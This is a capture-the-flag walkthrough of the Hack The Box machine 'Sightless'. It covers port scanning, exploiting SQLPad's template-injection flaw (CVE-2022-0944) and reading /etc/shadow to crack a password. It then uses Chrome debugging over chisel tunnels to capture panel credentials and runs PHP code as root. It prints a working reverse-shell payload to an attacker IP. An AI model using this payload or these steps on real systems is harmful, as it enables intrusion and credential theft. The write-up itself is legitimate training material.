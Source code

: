 ![logo](https://github.com/user-attachments/assets/7392fc4b-a18b-4189-8f58-00f1536e7597)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [EmSec](https://app.hackthebox.com/users/962022)         | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---









- I start with a scan of the open ports
    
    ```python
    nmap -p- --open -vvv --min-rate 5000 -Pn -sS 10.10.11.32 -oG scan
    ```
    
    ![image 25](https://github.com/user-attachments/assets/d24e27e8-a791-43fd-a598-47d431fcd7c4)
    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found
    
    ```python
    nmap -p21,22,80 -sCV 10.10.11.32 -oN ports
    ```
    
    ![image 1 3](https://github.com/user-attachments/assets/6daf4857-2e8e-4c24-8594-2a8415111acd)
    
- I found the domain `sightless.htb` and add it to the file in the `/etc/hosts` file
    
- I look at what technologies they are using on the website.
    
    ```python
    whatweb https://sightless.htb
    ```
    
    ![image 2 2](https://github.com/user-attachments/assets/15af6568-d13f-4866-9f4b-2ba7ae6e31b1)

    
- I make a list of directories and files that end with specific extensions but I can't find anything remarkable.
    
    ![image 4 2](https://github.com/user-attachments/assets/54a8ce75-31dd-4cbe-acda-d946723f3266)

    
- I check the code of the main page and find a subdomain, add it to `/etc/hosts` and enter the web to see its content.
    
    ![image 5 1](https://github.com/user-attachments/assets/6dd1ef21-a4a5-43e1-80bb-aab3e5f3f1a5)
    
    ![image 6 1](https://github.com/user-attachments/assets/aad96827-8de9-40ee-a390-49097fb7138f)

    ![image 7 1](https://github.com/user-attachments/assets/c6d217d7-6722-4590-a36f-194c0e8b7247)

- I find a version of SQL Pad that when searching for vulnerabilities I find one that allows code execution. [CVE-2022-0944](https://nvd.nist.gov/vuln/detail/CVE-2022-0944), [Template injection](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)

- I modify the payload that shows the CVE to run a revershell and I get a shell
    
    ```bash
    {{ process.mainModule.require('child_process').exec("bash -c 'bash -i >& /dev/tcp/10.10.14.142/4444 0>&1'") }}
    ```
    
    ![image 8 1](https://github.com/user-attachments/assets/77816332-1961-4f04-a223-aa38adf8299a)
    
- When I check which user I am, I see that I am root and when I see which network I am on, I realize that I am inside a container.
    
    ![image 9 3](https://github.com/user-attachments/assets/48cf3626-ecd1-436b-a62e-cabdfcb2ea7d)
    
- When looking in the container files I see that I can read `/etc/shadow` file, which contains the encrypted user passwords.
    
    ![image 10 2](https://github.com/user-attachments/assets/6336d002-0fdd-4037-bc79-b46c6bf6b4e3)
    
- I copy one of these hashes and when I pass it through `john` I get the password of the user `michael`. Now I can connect via ssh to the system and read the first flag.
    
    ![image 11 2](https://github.com/user-attachments/assets/9a021389-1492-4898-a606-5d1e702614d0)

    ![image 12 3](https://github.com/user-attachments/assets/3cd3ac68-8dd6-4483-a369-8ac9dd35dea0)

    
- To escalate privileges I start by looking at the ports that are in use. I find 8080 which from outside the machine I am not able to see. I use chisel to send that port to my machine
    
    ![image 13 1](https://github.com/user-attachments/assets/cbdae75d-fedc-474f-824e-2314090109e1)

    
- I see a panel to log in but after several attempts I am not able to get anything
    
    ![image 14 1](https://github.com/user-attachments/assets/25006603-252c-495c-8a75-076bd134f2bb)

    
- I look at the processes running on the machine and find a few that catch my eye. After searching for information I find that they may be related to the other ports that are in use.
    
- I pass those ports to my machine with chisel and add them in chrome to be able to inspect the debugging processes.
    
    ![image 15 1](https://github.com/user-attachments/assets/2061132b-3222-421d-b116-244579bfc450)

    ![image 16 1](https://github.com/user-attachments/assets/e01be6c0-60d4-4a3c-8bba-3e8be2c1db4f)
    
- By doing this I am able to inspect the debugging of these processes
    
    ![image 17 1](https://github.com/user-attachments/assets/21f9be69-4fac-4c76-88b1-2d87fca60ea1)
    
- The process connects and disconnects from the panel continuously. When inspecting the calls we can see the credentials in plain text
    
    ![image 18 1](https://github.com/user-attachments/assets/33ea9c4d-0531-46e1-b7f1-bf534c282d1c)
    
- Using the credentials found we can log in and start investigating the site
    
    ![image 19 1](https://github.com/user-attachments/assets/c226addd-a00e-41f2-a493-80923718b2c0)
    
- After a while I find inside the PHP section a field in which I can inject code and it executes as root. I copy the flag to a directory that I can access and change the permissions. With this I am able to read the second flag

	![image 20 1](https://github.com/user-attachments/assets/0506c05e-56cb-46d3-98d3-117dafc1b70c)
	
	![image 21 1](https://github.com/user-attachments/assets/ab8d62c6-4c3b-4869-9fc2-ae9426926ac2)
